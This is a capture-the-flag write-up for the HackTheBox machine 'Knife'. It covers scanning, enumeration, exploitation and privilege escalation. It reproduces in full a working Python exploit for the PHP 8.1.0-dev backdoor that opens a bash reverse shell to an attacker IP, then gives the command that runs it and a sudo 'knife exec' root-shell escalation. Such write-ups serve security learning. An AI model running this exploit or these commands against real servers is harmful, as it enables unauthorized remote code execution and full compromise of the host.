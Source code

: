 ```yaml
---
title: Knife
tags:
  - HackTheBox
  - Easy
  - Linux
  - PHP
  - Sudo-Vulnerability
date: 2024-09-05T00:00:00Z
---
```

![](Pasted%20image%2020241105182621.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.242 knife.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- knife.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http
|_http-title:  Emergent Medical Idea
```

So I inspected the website:

![](Pasted%20image%2020241105182921.png)

 After inspecting the source code, I decided to enumerate with [Ffuf 🐳](/notes/tools/ffuf.md):

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt:FUZZ -u http://knife.htb/FUZZ -s

.htpasswd
.htaccess
.hta
index.php
server-status
```

We can now use [cURL ⚙️](/notes/tools/cURL.md) to find out which php version is being used:

```shell
curl -I http://knife.htb/index.php

HTTP/1.1 200 OK
Date: Tue, 05 Nov 2024 17:41:23 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

## Weaponization

So now we can search for "*PHP 8.1.0-dev exploits*". I found the following [Exploit in Github](https://github.com/flast101/php-8.1.0-dev-backdoor-rce):

```python
# Exploit Title: PHP 8.1.0-dev Backdoor Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#     - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# CVE : N/A
# References:
#     - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#     - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.

Usage:
  python3 revshell_php_8.1.0-dev.py <target-ip> <attacker-ip> <attacker-port>
"""

#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
    
```

## Exploitation

> If we execute the script, we'll get a reverse shell :D

```shell
python3 exploit.py http://knife.htb 10.10.14.24 666
```

![](Pasted%20image%2020241105185303.png)

> So now we can read user flag:

![](Pasted%20image%2020241105185426.png)

## Privilege escalation

If we run:

```shell
sudo -l

Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

So we can execute that binary with sudo permissions. I found this sudo vulnerability in [GTFOBins](https://gtfobins.github.io/gtfobins/knife/):

```shell
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
```

> We can now read root flag :D

![](Pasted%20image%2020241105190005.png)

==Machine pwned!==